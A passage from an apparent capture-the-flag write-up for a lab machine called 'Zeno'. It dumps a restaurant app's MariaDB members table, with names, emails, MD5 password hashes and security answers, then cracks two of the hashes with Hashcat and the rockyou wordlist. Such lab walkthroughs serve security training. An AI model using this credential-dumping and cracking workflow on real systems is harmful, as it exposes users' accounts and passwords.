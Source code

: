 ```
| billing_details      |
| cart_details         |
| categories           |
| currencies           |
| food_details         |
| members              |
| messages             |
| orders_details       |
| partyhalls           |
| pizza_admin          |
| polls_details        |
| quantities           |
| questions            |
| ratings              |
| reservations_details |
| specials             |
| staff                |
| tables               |
| timezones            |
| users                |
+----------------------+
20 rows in set (0.00 sec)

MariaDB [dbrms]> select * from users;
Empty set (0.00 sec)

MariaDB [dbrms]> select * from members;
+-----------+-----------+----------+--------------------------+----------------------------------+-------------+----------------------------------+
| member_id | firstname | lastname | login                    | passwd                           | question_id | answer                           |
+-----------+-----------+----------+--------------------------+----------------------------------+-------------+----------------------------------+
|        15 | Stephen   | Omolewa  | omolewastephen@gmail.com | 81dc9bdb52d04dc20036dbd8313ed055 |           9 | 51977f38bb3afdf634dd8162c7a33691 |
|        16 | John      | Smith    | jsmith@sample.com        | 1254737c076cf867dc53d60a0364f38e |           8 | 9f2780ee8346cc83b212ff038fcdb45a |
|        17 | edward    | zeno     | edward@zeno.com          | 6f72ea079fd65aff33a67a3f3618b89c |           8 | 6f72ea079fd65aff33a67a3f3618b89c |
+-----------+-----------+----------+--------------------------+----------------------------------+-------------+----------------------------------+
3 rows in set (0.00 sec)
```

I can load these MD5 hashes into a file and try cracking them with Hashcat:

```
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Zeno]
└─$ hashcat hashes /usr/share/wordlists/rockyou.txt -m 0                 
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

81dc9bdb52d04dc20036dbd8313ed055:1234                     
1254737c076cf867dc53d60a0364f38e:jsmith123 
```
